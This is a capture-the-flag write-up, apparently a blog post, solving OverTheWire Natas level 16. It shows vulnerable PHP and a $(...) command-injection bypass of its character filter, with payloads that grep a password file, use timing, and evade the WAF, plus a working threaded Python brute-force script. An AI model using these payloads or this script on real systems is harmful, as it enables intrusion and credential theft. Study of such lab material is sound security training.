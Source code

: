 ```yaml
---
layout: post
title: OverTheWire - Natas Solutions 16 - 20
date: 2025-05-05
categories: [OverTheWire, natas, Web]
---
```

# Natas Solutions

This page contains my solutions for the Natas wargame challenges 16 - 20 from OverTheWire.

## Solutions

### Level 16 --> Level 17
**URL**: http://natas16.natas.labs.overthewire.org  
**Username**: natas16  
**Password**: [REDACTED]

#### Solution

1. **Initial Analysis**: Upon accessing the URL, I was presented with a familiar challenge involving a `needle` parameter. The goal was to perform command injection to read the file located at `/etc/natas_webpass/natas17`. To understand the challenge better, I examined the source code provided by the application:

   ```php
   <?
   $key = "";

   if(array_key_exists("needle", $_REQUEST)) {
       $key = $_REQUEST["needle"];
   }

   if($key != "") {
       if(preg_match('/[;|&`\'"]/', $key)) {
           print "Input contains an illegal character!";
       } else {
           passthru("grep -i \"$key\" dictionary.txt");
       }
   }
   ?>
   ```

2. **Understanding the Code**: The application accepts a `needle` parameter, which is then used in a `grep` command to search through `dictionary.txt`. The `preg_match` function is used to filter out potentially dangerous characters such as `;`, `|`, `&`, `` ` ``, `'`, and `"`. However, the use of double quotes around `$needle` in the `passthru` function allows for shell command substitution using `$(...)`.  `.` and whitespace(`%20`) are still usable like in the previous challenge.

3. **Initial Exploitation Attempts**: I attempted to use a payload similar to one from a previous level: `needle=.%20/etc/natas_webpass/natas17&submit=Search`. This resulted in an empty output, indicating that the payload was not successful in extracting the password.
   ![Empty Output](/assets/img/overthewire/natas16_20/natas16_1.png)

4. **Testing Command Injection**: To confirm the possibility of command injection, I used the payload `$(sleep 5)`. This successfully executed the sleep command and returned the entire contents of `dictionary.txt`, confirming that command injection was possible.
   ![Injection Possible](/assets/img/overthewire/natas16_20/natas16_2.png)

5. **Timing-Based Injection Attempts**: I experimented with timing-based injection using newlines and if-fi shell blocks. The payload was structured as follows:

   ```
   $(if grep ^abc /etc/natas_webpass/natas17
   then sleep 5
   fi)
   ```

   This approach was able to bypass the Web Application Firewall (WAF), but it was not reliable due to unstable response timings and some payloads breaking the shell parser.

6. **Final Strategy - Brute Force**: I devised a strategy to brute force the password one character at a time. For each character candidate `c`, I tested the following pattern:

   ```
   $(grep ^<prefix+c> /etc/natas_webpass/natas17)
   ```

   By sending 62 requests in parallel using threads, I could determine the correct character by identifying which request returned the fewest lines. This process was repeated until the full 32-character password was constructed.

7. **Implementation**: The following Python script was used to automate the brute force attack:

   ```python
   import requests
   import string
   from concurrent.futures import ThreadPoolExecutor, as_completed

   URL = "http://natas16.natas.labs.overthewire.org/index.php"
   AUTH = ("natas16", "REDACTED")
   CHARSET = string.ascii_letters + string.digits
   PASSWORD_LENGTH = 32
   MAX_WORKERS = 20

   session = requests.Session()
   session.auth = AUTH

   def probe_char(prefix, c):
       needle = f'$(grep ^{prefix + c} /etc/natas_webpass/natas17)'
       r = session.get(URL, params={"needle": needle, "submit": "Search"})
       return c, r.text.count("\n")

   def brute():
       found = ""
       print("[*] Starting blind injection attack...")
       with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
           for pos in range(PASSWORD_LENGTH):
               futures = { executor.submit(probe_char, found, c): c for c in CHARSET }
               results = []
               for fut in as_completed(futures):
                   c, lines = fut.result()
                   results.append((c, lines))
               match_char, _ = min(results, key=lambda x: x[1])
               found += match_char
               print(f"[+] Found [{pos+1:02d}/{PASSWORD_LENGTH}]: {found}")
       print(f"\n[>] Password for natas17: {found}")

   if __name__ == "__main__":
       brute()
   ```

8. **Outcome**: Running this script successfully brute-forced each character of the password, ultimately revealing the complete password for the next challenge. 
   ![Pwned](/assets/img/overthewire/natas16_20/natas16_3.png)

   > **_TLDR:_**
   > Sanitize input: Do not allow raw input to be used in shell commands!


---

